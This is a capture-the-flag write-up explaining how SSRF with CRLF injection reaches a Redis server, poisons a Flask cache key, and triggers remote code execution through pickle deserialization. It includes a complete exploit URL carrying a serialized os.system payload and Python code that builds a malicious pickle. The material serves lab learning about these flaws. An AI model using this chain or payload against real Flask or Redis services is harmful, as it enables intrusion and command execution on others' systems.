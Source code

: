 ## Category

Source Code Review

## Description

Challenge is based on the SSRF+CRLF which can be used to talk to redis server
In the redis server, attacker can pollute any of the redis key which is getting used by the redis cache in the flask
In the flask app, Flask cache is deserializing the data received from the redis server
RCE is possible via deserialization

## Solution

1. Hit the below URL
`http://localhost:8002/checkStatus?host=redis:6379/%0d%0aSET%20flask_cache_14cent%20%22!\x80\x04\x952\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x17cat%20/flag%3E/var/www/flag\x94\x85\x94R\x94.%22%0d%0a`
2. Visit the below URL
`http://localhost:8002/searchCVE?package=14cent`
3. Get the flag by visiting the below url
`http://localhost:5000/flag`


## References

``
python3
import pickle,os


class rce_payload:
    def __reduce__(self):
        #cmd = 'touch /tmp/testing'
        cmd = 'cat /flag>/var/www/flag'
        return (os.system, (cmd,))


def pickle_ser():
    pickled = pickle.dumps(rce_payload())
    return pickled  # Serializing the payload

print(pickle_ser())
``